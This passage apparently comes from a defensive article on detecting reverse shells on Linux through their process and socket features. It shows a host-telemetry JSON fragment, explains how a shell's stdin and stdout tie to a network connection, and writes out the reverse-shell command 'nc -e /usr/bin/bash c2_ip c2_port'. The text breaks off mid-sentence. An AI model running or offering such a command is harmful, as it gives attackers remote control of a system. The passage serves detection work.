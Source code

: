 ```json
    "local_ip":"192.168.165.152",
    "hostname":"test",
    "exe_md5":"f926bedd777fa0f4f71dd2d28155862a",
    "socket_process_exe_md5":"f926bedd777fa0f4f71dd2d28155862a"
}
```

Pay attention to exe and stdin and stdout. According to the feature we just mentioned, you can easily find this type of reverse shell, and you can also locate C2 with the help of **dip/dport/sip/sport**.

Other similar ones which you may already know well, such as python/perl reverse shell scripts, we will not discuss too much here, most of them point the stdin/out of bash to the socket connection, which is same in nature.



#### 4. The easiest reverse shell(2)

In addition to `bash -i`, there is another common way is ` nc -e`, which is used as follows:

`nc -e /usr/bin/bash c2_ip c2_port`

Let's follow the previous ideas to see what the stdin and stdout of the bash process look like, and whether there are obvious input and output points to the network connection:

![5](5.png)

![6](6.png)

Unfortunately, it is not the same case like the one above. However, we can still use following inforamtion to detect it:
